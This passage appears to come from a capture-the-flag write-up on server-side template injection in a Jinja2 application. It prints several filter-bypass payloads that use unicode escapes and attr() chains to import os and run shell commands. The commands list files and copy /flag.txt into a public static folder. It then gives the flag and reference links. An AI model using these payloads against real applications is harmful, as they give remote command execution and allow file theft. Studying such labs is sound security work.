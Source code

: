 We got error 500 most likely due to the permission to write a new file to `/static` 

### RCE
```python
{% set a = self|attr('\u005f\u005finit\u005f\u005f')|attr('\u005f\u005fglobals\u005f\u005f')|attr('get')('\u005f\u005fbuiltins\u005f\u005f') %}
{% set i = a|attr('get')('\u005f\u005fimport\u005f\u005f')('o'+'s') %}
{% set p = i|attr('p\u006fp\u0065n')('id') %}
{% set r = p|attr('read')() %}
{% print r %}
```
Worked on both local and the CTF so we need only to print the output to `static/` we can access it.

```python
{% set a = self|attr('\u005f\u005finit\u005f\u005f')
   |attr('\u005f\u005fglobals\u005f\u005f')
   |attr('get')('\u005f\u005fbuiltins\u005f\u005f') %}
{% set i = a|attr('get')('\u005f\u005fimport\u005f\u005f')('o'+'s') %}
{% set p = i|attr('p\u006fp\u0065n')('ls > static/out\u002etxt') %}
{% set r = p|attr('read')() %}
{% print r %}
```
![alt text](images/image-1.png)

```python
{% set a = self|attr('\u005f\u005finit\u005f\u005f')
   |attr('\u005f\u005fglobals\u005f\u005f')
   |attr('get')('\u005f\u005fbuiltins\u005f\u005f') %}
{% set i = a|attr('get')('\u005f\u005fimport\u005f\u005f')('o'+'s') %}
{% set p = i|attr('p\u006fp\u0065n')('cat /flag\u002etxt > static/flag\u002etxt') %}
{% set r = p|attr('read')() %}
{% print r %}
```

Flag : FLAG{SStI_F1lT3rS_4r3_H4rD}

### Resources 
[SSTImap Github](https://github.com/vladko312/SSTImap)
[SSTI Hacktriks](https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection)
[SSTI Portswigger](https://portswigger.net/web-security/server-side-template-injection)


>Find More on ==> github.com/MedhatHassan 